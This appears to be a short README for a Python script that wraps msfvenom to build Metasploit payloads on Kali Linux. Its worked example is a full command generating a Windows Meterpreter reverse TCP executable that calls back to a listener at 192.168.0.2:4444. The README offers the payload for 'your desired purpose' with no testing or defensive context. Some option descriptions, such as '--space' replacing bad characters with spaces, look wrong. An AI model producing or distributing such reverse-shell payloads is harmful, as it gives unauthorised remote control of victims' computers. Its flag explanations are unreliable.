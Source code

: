 # Automated-script-for-making-payload-in-Kali-Linux-with-more-advanced-functionlity-This code builds on the previous example by adding additional features to enhance the functionality of the msfvenom command line tool. The additional features include:

The ability to exclude bad characters using the --bad-chars argument.

The ability to replace bad characters with spaces using the --space argument.

The ability to set the number of iterations for encoding using the --iteration argument.

To use this code, you can save it as a Python script and run it from the command line with the desired payload type, local host IP, local port number, and any desired additional arguments. For example, to generate a Windows Meterpreter reverse TCP payload with the local host IP 192.168.0.2, local port 4444, and exclude the bad characters 0x00, 0x0a, and 0x0d, you would run the following command:
python msfvenom_advanced.py windows/meterpreter/reverse_tcp 192.168.0.2 4444 --bad-chars '\x00\x0a\x0d'


This would output the payload to a file with a name like windows/meterpreter/reverse_tcp_192.168.0.2_4444.exe and print the base64 encoded payload to the console. You can then use the payload for your desired purpose.

